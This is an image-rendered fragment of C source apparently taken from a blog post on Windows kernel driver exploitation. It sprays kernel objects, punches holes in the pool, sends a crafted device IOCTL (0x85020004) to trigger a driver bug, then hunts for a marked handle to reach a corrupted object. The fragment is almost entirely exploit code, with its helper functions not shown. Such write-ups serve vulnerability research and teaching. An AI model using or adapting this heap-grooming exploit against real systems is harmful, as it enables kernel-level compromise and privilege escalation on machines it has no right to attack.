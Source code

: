     r = SprayObjects();
    if (r == FALSE)
    {
        printf("SprayObjects failed\n");
        goto Exit;
    }
    r = CreateHoles();
    if (r == FALSE)
    {
        printf("CreateHoles failed\n");
        goto Exit;
    }

    InputBuffer.LowPart = 0xFFFFFFFF;
    InputBuffer.HighPart = 0xFFFFFFFF;
    r = DeviceIoControl(hDevice, 0x85020004, &InputBuffer, 8, &OutBuffer, 4, &ReturnedLength, NULL);
    if (r == FALSE)
    {
        err = GetLastError();
        printf("DeviceIoControl 'on' failed: %d\n", err);
    }
    else
    {
        *pHandle = LookupMarkedHandle();
        if (*pHandle == NULL)
        {
            printf("LookupMarkedHandle failed\n");
        }
        else
        {
            *pObject = GetObjectByHandle(*pHandle);
            if (*pObject == NULL)
            {
                printf("GetObjectByHandle for handle: %p failed\n", *pHandle);
                *pHandle = NULL;
            }
            else
            {
                printf("Object: %p, keeping handle %p\n", *pObject, *pHandle);
            }
        }

        InputBuffer.LowPart = 0x0;
        InputBuffer.HighPart = 0x0;
        r = DeviceIoControl(hDevice, 0x85020004, &InputBuffer, 8, &OutBuffer, 4, &ReturnedLength, 0);
        if (r == FALSE)
        {
            err = GetLastError();
            printf("DeviceIoControl 'off' failed: %d\n", err);
        }
    }

    r = FreeObjects(*pHandle);
    if (r == FALSE)
    {
        printf("FreeObjects failed\n");
        goto Exit;
    }

Exit:
    return r;
}
{% endhighlight %}